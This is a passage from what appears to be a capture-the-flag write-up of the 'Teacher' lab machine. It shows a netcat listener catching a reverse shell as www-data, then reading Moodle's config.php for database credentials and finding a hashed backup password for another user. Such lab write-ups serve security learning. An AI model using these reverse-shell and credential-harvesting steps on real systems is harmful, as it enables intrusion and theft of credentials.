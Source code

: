 Go to the listener :

```
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.153: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.153] 38516
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Nice, I have a reverse shell ! Let's escalate to another user. Searching for privilege escalation path, I stumble upon this config file containing database credentials :

```
www-data@teacher:/var/www/html/moodle$ cat config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';
[...]
```

So I tried to connect with them and search for interesting stuff. I found a backup hashed password for the user giovanni :

![Database connected](/assets/imgs/teacher/database.PNG)
